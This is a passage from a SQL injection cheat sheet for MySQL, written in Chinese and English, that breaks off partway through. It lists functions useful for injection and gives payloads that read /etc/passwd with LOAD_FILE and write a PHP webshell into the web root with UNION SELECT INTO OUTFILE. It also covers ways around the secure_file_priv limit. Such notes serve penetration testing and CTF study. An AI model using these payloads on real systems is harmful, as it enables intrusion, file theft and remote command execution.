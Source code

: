 # SQL Injection


## MySQL

- 子字串：
  - `substr("abc",1,1) => 'a'`
  - `mid("abc", 1, 1)  => 'a'`
- Ascii function
  - `ascii('A') => 65 `
- Char function
  - `char(65) => 'a'`
- Concatenation
  - `CONCAT('a', 'b') => 'ab'`
    - 如果任何一欄為NULL，則返回NULL
  - `CONCAT_WS(分隔符, 字串1, 字串2...)`
    - `CONCAT_WS('@', 'gg', 'inin')` => `gg@inin`
- Cast function
  - `CAST('125e342.83' AS signed) => 125`
  - `CONVERT('23',SIGNED) => 23`
- Delay function
  - `sleep(5)`
  - `BENCHMARK(count, expr)`
- 空白字元
  - `09 0A 0B 0C 0D A0 20`
- File-read function
  - `LOAD_FILE('/etc/passwd')`
- File-write
  - `INTO DUMPFILE`
    - 適用binary (寫入同一行)
  - `INTO OUTFILE`
    - 適用一般文本 (有換行)
  - 寫webshell
    - 需知道可寫路徑
    - `UNION SELECT "<? system($_GET[1]);?>",2,3 INTO OUTFILE "/var/www/html/temp/shell.php"`
  - 權限
    - `SELECT file_priv FROM mysql.user`
  - secure-file-priv
    - 限制MySQL導入導出
      - load_file, into outfile等
    - 運行時無法更改
    - MySQL 5.5.53前，該變數預設為空(可以導入導出)
    - e.g. `secure_file_priv=E:\`
      - 限制導入導出只能在E:\下
    - e.g. `secure_file_priv=null`
      - 限制不允許導入導出
    - secure-file-priv限制下用general_log拿shell
    ```
    SET global general_log='on';
